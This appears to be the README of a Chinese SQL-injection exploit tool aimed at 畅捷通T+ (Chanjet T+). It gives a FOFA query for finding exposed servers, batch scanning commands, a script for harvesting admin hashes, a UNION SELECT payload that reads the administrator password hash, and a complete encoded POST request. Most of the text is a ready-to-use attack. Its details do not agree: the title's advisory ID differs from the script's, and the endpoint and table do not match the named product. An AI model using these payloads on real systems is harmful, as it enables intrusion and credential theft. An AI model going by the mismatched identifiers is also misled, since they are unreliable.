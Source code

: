 # QVD-2023-13612
畅捷通T+ SQL注入漏洞

## fofa

app="畅捷通-TPlus"

## 工具利用

python3 QVD-2023-5012.py -u http://127.0.0.1:1111 单个url测试

python3 QVD-2023-5012.py -f url.txt 批量检测 

python3 gethash.py -f url.txt 批量获取管理员hash并生成hash.txt
![hash](./hash.jpg)

扫描会自动保存存在漏洞的url到vuln.txt

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

## payload

keyword参数三重url编码

爆管理员密码hash

xx%' union select 1,(select password from HrmResourceManager where id=1) union select 1,'1

编码后为：

25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%34%25%32%35%25%33%36%25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%34%25%32%35%25%33%36%25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%37%25%33%38%25%32%35%25%33%37%25%33%38%25%32%35%25%33%32%25%33%35%25%32%35%25%33%32%25%33%37%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%35%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%33%25%33%31%25%32%35%25%33%32%25%36%33%25%32%35%25%33%32%25%33%38%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%30%25%32%35%25%33%36%25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%37%25%33%33%25%32%35%25%33%37%25%33%37%25%32%35%25%33%36%25%36%36%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%36%25%33%36%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%34%25%33%38%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%36%34%25%32%35%25%33%35%25%33%32%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%36%36%25%32%35%25%33%37%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%34%25%36%34%25%32%35%25%33%36%25%33%31%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%31%25%32%35%25%33%36%25%33%37%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%37%25%32%35%25%33%36%25%33%38%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%35%25%32%35%25%33%32%25%33%30%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%33%34%25%32%35%25%33%33%25%36%34%25%32%35%25%33%33%25%33%31%25%32%35%25%33%32%25%33%39%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%35%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%33%25%33%31%25%32%35%25%33%32%25%36%33%25%32%35%25%33%32%25%33%37%25%32%35%25%33%33%25%33%31

数据包为：

```
POST /mobile/%20/plugin/browser.jsp HTTP/1.1
Host: xxxxxxxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.15.99 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 2661

isDis=1&browserTypeId=269&keyword=25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%34%25%32%35%25%33%36%25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%34%25%32%35%25%33%36%25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%37%25%33%38%25%32%35%25%33%37%25%33%38%25%32%35%25%33%32%25%33%35%25%32%35%25%33%32%25%33%37%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%35%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%33%25%33%31%25%32%35%25%33%32%25%36%33%25%32%35%25%33%32%25%33%38%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%30%25%32%35%25%33%36%25%33%31%25%32%35%25%33%37%25%33%33%25%32%35%25%33%37%25%33%33%25%32%35%25%33%37%25%33%37%25%32%35%25%33%36%25%36%36%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%36%25%33%36%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%34%25%33%38%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%36%34%25%32%35%25%33%35%25%33%32%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%36%36%25%32%35%25%33%37%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%34%25%36%34%25%32%35%25%33%36%25%33%31%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%31%25%32%35%25%33%36%25%33%37%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%37%25%32%35%25%33%36%25%33%38%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%35%25%32%35%25%33%32%25%33%30%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%33%34%25%32%35%25%33%33%25%36%34%25%32%35%25%33%33%25%33%31%25%32%35%25%33%32%25%33%39%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%35%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35%25%32%35%25%33%32%25%33%30%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%33%30%25%32%35%25%33%33%25%33%31%25%32%35%25%33%32%25%36%33%25%32%35%25%33%32%25%33%37%25%32%35%25%33%33%25%33%31
```
